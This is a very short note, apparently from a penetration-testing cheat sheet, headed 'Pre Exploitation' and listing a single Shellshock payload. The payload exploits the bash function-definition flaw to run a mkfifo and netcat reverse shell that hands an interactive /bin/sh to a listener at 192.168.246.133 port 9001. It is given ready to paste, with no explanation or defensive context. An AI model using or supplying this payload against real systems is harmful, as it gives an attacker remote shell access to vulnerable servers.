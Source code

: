 # Pre Exploitation


1. Shellshock
```() { :;};echo -e "\\r\\n$(/bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.246.133 9001 >/tmp/f')"
```
